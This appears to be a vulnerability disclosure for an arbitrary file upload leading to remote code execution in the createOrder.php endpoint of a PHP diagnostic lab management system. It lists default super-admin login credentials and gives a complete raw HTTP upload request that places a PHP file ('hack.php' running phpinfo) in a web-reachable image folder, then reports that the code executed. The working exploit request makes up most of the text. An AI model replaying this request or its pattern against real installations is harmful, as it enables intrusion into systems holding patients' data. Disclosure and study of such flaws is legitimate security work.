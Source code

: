 # Online Diagnostic Lab Management System v1.0 by mayuri_k has arbitrary code execution (RCE)

BUG_Author: 袁世冲

vendors: https://www.sourcecodester.com/php/15667/online-diagnostic-lab-management-system-using-php-and-mysql-free-download.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability url: ip/diagnostic/php_action/createOrder.php

Loophole location: Online Diagnostic Lab Management System's createOrder.php file exists arbitrary file upload (RCE)

Request package for file upload：

```sql
POST /diagnostic/php_action/createOrder.php HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.88/diagnostic/add-invoice.php
Cookie: PHPSESSID=flklolh755oivesj89eu5fo2c7
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------291102893527846
Content-Length: 2130

-----------------------------291102893527846
Content-Disposition: form-data; name="orderDate"

2022-09-21
-----------------------------291102893527846
Content-Disposition: form-data; name="clientName"

3
-----------------------------291102893527846
Content-Disposition: form-data; name="clientContact"

7070707070
-----------------------------291102893527846
Content-Disposition: form-data; name="productName[]"

4
-----------------------------291102893527846
Content-Disposition: form-data; name="rateValue[]"

300
-----------------------------291102893527846
Content-Disposition: form-data; name="quantity[]"

1
-----------------------------291102893527846
Content-Disposition: form-data; name="totalValue[]"

300.00
-----------------------------291102893527846
Content-Disposition: form-data; name="subTotalValue"

300.00
-----------------------------291102893527846
Content-Disposition: form-data; name="totalAmountValue"

354.00
-----------------------------291102893527846
Content-Disposition: form-data; name="discount"

1
-----------------------------291102893527846
Content-Disposition: form-data; name="grandTotalValue"

353.00
-----------------------------291102893527846
Content-Disposition: form-data; name="gstn"

54.00
-----------------------------291102893527846
Content-Disposition: form-data; name="vatValue"

54.00
-----------------------------291102893527846
Content-Disposition: form-data; name="paid"

1
-----------------------------291102893527846
Content-Disposition: form-data; name="dueValue"

352.00
-----------------------------291102893527846
Content-Disposition: form-data; name="paymentType"

6
-----------------------------291102893527846
Content-Disposition: form-data; name="paymentStatus"

2
-----------------------------291102893527846
Content-Disposition: form-data; name="paymentPlace"

1
-----------------------------291102893527846
Content-Disposition: form-data; name="productImage"; filename="hack.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
-----------------------------291102893527846--
```

The files will be uploaded to this directory \diagnostic\assets\myimages\

![image](https://user-images.githubusercontent.com/54017627/191397805-e9a3d96e-76e8-4bb6-9a32-9080a6dc58e5.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/191398735-730584c2-6e4d-46cb-9bc7-4ae168390a89.png)
